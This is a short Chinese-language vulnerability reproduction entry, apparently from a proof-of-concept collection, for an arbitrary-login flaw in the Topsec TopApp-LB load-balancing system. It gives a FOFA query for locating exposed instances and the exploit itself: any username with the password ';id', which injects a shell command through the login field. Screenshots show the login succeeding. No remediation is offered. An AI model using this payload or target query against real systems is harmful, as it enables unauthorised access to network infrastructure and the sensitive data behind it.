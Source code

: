 # 天融信负载均衡TopApp-LB任意登陆

## 漏洞描述

天融信负载均衡TopApp-LB系统无需密码可直接登陆，查看敏感信息

## 影响版本

天融信负载均衡TopApp-LB

## FOFA

> [!NOTE]
>
> app="天融信-TopApp-LB-负载均衡系统"

## 漏洞复现

在登录页面中输入，账号:**任意账号**  密码:**;id**

![](天融信负载均衡TopApp-LB任意登陆.assets/16273631017457469.jpg)

成功登录

![](天融信负载均衡TopApp-LB任意登陆.assets/1627363102051498.jpg)